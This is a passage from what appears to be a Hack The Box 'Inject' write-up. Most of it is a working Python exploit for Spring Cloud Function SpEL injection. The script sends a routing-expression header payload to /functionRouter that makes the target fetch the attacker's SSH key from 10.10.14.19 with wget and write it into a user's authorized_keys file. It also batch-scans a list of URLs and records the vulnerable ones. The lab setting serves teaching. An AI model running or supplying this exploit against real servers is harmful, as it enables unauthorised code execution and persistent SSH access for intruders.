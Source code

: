 ```python
    except:
        print ( 'Usage:' )
        print('python poc.py url.txt')
        pass
```

For confirmation, doing a ping on my host from the Inject machine, using `tcpdump` we received ICMP requests.

![](/img/Inject_-_Seasonal_9e3607466f6a4ad49fada783b796669f/Untitled_7.png)

Again, modifying the script to add the public key to the `frank` user so we can SSH into the machine.

```python
import requests
import sys
import threading
import urllib3
urllib3.disable_warnings()

def scan(txt,cmd):

    payload=f'T(java.lang.Runtime).getRuntime().exec("wget http://10.10.14.19/authorized_keys -O /home/frank/.ssh/authorized_keys")'

    data ='test'
    headers = {
        'spring.cloud.function.routing-expression':payload,
        'Accept-Encoding': 'gzip, deflate',
        'Accept': '*/*',
        'Accept-Language': 'en',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36',
        'Content-Type': 'application/x-www-form-urlencoded'
    }
    path = '/functionRouter'
    f = open(txt)
    urllist=f.readlines()

    for  url  in  urllist :
        url = url.strip('\n')
        all = url + path
        try:
            req=requests.post(url=all,headers=headers,data=data,verify=False,timeout=3)
            code =req.status_code
            text = req.text
            rsp = '"error":"Internal Server Error"'

            if code == 500 and rsp in text:
                print ( f'[+] { url } is vulnerable' )
                poc_file = open('vulnerable.txt', 'a+')
                poc_file.write(url + '\n')
                poc_file.close()
            else:
                print ( f'[-] { url } not vulnerable' )

        except requests.exceptions.RequestException:
            print ( f'[-] { url } detection timed out' )
            continue
        except:
            print ( f'[-] { url } error' )
            continue

```